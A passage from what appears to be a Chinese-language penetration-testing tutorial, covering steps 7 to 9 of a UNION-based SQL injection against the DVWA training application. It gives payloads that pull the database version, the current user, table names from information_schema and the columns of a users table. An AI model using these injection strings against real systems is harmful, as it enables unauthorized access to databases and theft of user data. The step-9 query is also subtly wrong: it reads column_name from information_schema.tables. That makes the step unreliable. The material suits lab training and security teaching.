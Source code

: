     ![](../img/1ae952c493f6c19035d7101f8507830c.png)

7.  这意味着我们可以在 UNION 查询中请求两个值。那么试试 DBMS 的版本和数据库用户如何呢？将`id`设为`1' union select @@version,current_user() -- '`并点击`Execute`。

    ![](../img/7c47705018e3ce5bec8e3d8ed9c67fb0.png)

8.  让我们查找一些有关的东西，例如应用的用户。首先，我们需要定位用户表，将`id`设置为`1' union select table_schema, table_name FROM information_schema.tables WHERE table_name LIKE '%user%' -- '`。

    ![](../img/45a22ae82b81d68c5b99d50891daa36a.png)

9.  好的，我们知道了数据库（或Schema）叫做`dvwa`，我们要查找的表叫做`users`。因为我们只有两个地方来设置值，我们需要知道的哪一列对我们有用。将`id`设置为`1' union select column_name, 1 FROM information_schema.tables WHERE table_name = 'users' -- '`。
